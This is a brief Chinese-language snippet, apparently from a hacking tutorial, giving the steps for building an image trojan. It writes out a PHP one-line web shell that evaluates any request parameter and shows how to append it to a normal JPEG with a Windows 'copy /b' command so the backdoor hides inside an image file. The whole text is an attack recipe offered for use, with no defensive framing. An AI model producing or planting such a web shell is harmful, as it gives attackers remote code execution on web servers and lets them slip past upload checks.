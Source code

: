 准备一张正常图片（a.jpg）,新建一个文件b.php内容写入一句话 <?php @eval($_REQUEST[1]);echo 1;?>

copy /b a.jpg + b.php/a = muma.jpg
